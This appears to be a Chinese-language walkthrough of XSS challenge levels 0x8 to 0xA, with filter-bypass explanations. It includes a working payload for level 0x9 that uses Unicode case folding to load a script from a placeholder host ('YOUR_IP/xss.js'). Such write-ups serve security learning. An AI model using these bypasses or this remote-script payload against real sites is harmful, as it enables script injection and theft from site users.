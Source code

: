 tips：注释符也算在长度中。

------

### 0x8

```js
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}
```

这题绕单行注释，可以换行进行绕过，但是ban 掉了两个换行符，这里可以用到 unicode 编码进行绕过，然后用 js 的注释 `->`注释掉后面的 `");`

> \u2028，Unicode行分隔符
>
> \u2029，Unicode段落分隔符

这题好像有坑，无法复现，过！

------

### 0x9

```js
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

`toUpperCase()`存在漏洞，不仅会转换英文字母，也会转换一些 `Unicode` 字符，比如 `ſ` 传入后可转换为相似的 `S` ，这样就可以绕过开始的 `replace`。

payload:

```
<ſcript src="YOUR_IP/xss.js"></script>
```

------

### 0xA

```js
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```
